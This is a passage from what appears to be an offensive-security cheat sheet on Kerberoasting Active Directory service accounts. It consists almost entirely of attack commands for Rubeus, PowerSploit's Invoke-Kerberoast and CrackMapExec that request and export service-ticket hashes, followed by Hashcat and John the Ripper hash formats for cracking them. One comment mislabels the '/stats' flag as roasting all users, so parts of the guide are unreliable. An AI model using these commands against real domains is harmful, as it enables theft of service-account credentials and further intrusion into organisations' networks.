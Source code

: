 ### Rubeus (Windows)
```bash
# Enumerate SPNs
Rubeus.exe kerberoast

# Request specific user
Rubeus.exe kerberoast /user:serviceaccount

# Save output to file
Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt

# Use specific encryption type
Rubeus.exe kerberoast /enctype:aes256

# Roast all users
Rubeus.exe kerberoast /stats
```

### PowerShell Empire/PowerSploit
```powershell
# Invoke-Kerberoast from PowerSploit
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat

# Request specific user
Invoke-Kerberoast -Identity serviceaccount -OutputFormat Hashcat

# Export to file
Invoke-Kerberoast -OutputFormat Hashcat | Out-File kerberoast.txt
```

### CrackMapExec Integration
```bash
# Enumerate SPNs with CME
crackmapexec ldap domain.local -u username -p password --kerberoasting kerberoast_output.txt

# Use with hash
crackmapexec ldap domain.local -u username -H ntlm_hash --kerberoasting kerberoast_output.txt
```

## Hash Cracking

### Hash Formats
```bash
# Hashcat format (mode 13100 for TGS-REP)
$krb5tgs$23$*serviceaccount$DOMAIN.LOCAL$domain.local/serviceaccount*$hash...

# John the Ripper format
$krb5tgs$serviceaccount$DOMAIN.LOCAL$*domain.local/serviceaccount*$hash...
```
